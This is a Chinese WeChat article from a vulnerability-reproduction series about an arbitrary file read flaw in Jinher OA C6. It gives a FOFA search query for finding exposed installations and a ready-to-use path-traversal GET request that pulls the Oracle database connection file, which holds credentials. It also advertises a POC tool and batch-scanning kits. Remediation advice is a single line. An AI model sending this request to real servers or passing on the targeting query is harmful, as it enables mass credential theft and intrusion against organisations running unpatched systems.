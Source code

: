 #  ​金和OA存在任意文件读取漏洞 附POC

原创 南风徐来 [ 南风漏洞复现文库 ](javascript:void\(0\);)

**南风漏洞复现文库** ![]()

微信号 gh_a9e9b8a80c70

功能介绍 分享各种CVE CNVD CNVD及最新漏洞信息、漏洞复现、漏洞利用工具、漏洞整改等内容，适合安全运维人员，网络安全方面的人交流学习。

____

___发表于_

收录于合集 #漏洞文库 87个

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。

## 1\. 金和OA简介

微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发

金和数字化智能办公平台（简称JC6）是一款结合了人工智能技术的数字化办公平台，为企业带来了智能化的办公体验和全面的数字化转型支持。同时符合国家信创认证标准，支持组织数字化转型，实现业务流程的数字化、智能化和协同化，提高企业竞争力。

## 2.漏洞描述

金和OA协同办公管理系统C6软件（简称金和OA），本着简单、适用、高效的原则，贴合企事业单位的实际需求，实行通用化、标准化、智能化、人性化的产品设计，充分体现企事业单位规范管理、提高办公效率的核心思想，为用户提供一整套标准的办公自动化解决方案，以帮助企事业单位迅速建立便捷规范的办公环境。该系统存在任意文件读漏洞。

CVE编号:

CNNVD编号:

CNVD编号:

## 3.影响版本

金和OA协同办公管理系统C6

![]()金和OA存在任意文件读取漏洞

## 4.fofa查询语句

app="金和网络-金和OA"

## 5.漏洞复现

漏洞链接：http://127.0.0.1/C6/JHSoft.WCF/FunctionNew/FileUploadMessage.aspx?filename=../../../C6/JhSoft.Web.Dossier.JG/JhSoft.Web.Dossier.JG/XMLFile/OracleDbConn.xml

漏洞数据包：

    
    
    GET /C6/JHSoft.WCF/FunctionNew/FileUploadMessage.aspx?filename=../../../C6/JhSoft.Web.Dossier.JG/JhSoft.Web.Dossier.JG/XMLFile/OracleDbConn.xml HTTP/1.1  
    Host: 127.0.0.1  
    User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)  
    Accept: */*  
    Connection: Keep-Alive

![]()

## 6.POC&EXP

关注公众号 南风漏洞复现文库 并回复 漏洞复现68 即可获得该POC工具下载地址：

![]()

 ****

 **批量扫描POC及POC工具箱已经上传知识星球：南风网络安全**

![]()![]()![]()

## 7.整改意见

请联系厂家 http://www.jinher.com/升级

## 8.往期回顾

[大华智慧园区综合管理平台存在敏感信息泄露漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484421&idx=1&sn=3eb91472260f0e5323d0a0b4f999585c&chksm=974b8902a03c00140c8962c0a1627f64dafa52a83ac32560ed8a02e064536658d91420a7fbec&scene=21#wechat_redirect)  

[致远OA存在任意文件读取漏洞
附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484409&idx=1&sn=a1e3563f9f59a93a4c98e6e92fc17bbd&chksm=974b8efea03c07e8ae9c9e23f07f5d584f047202fac43ac597ac3130549d0972f7a7ae712cb4&scene=21#wechat_redirect)  

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

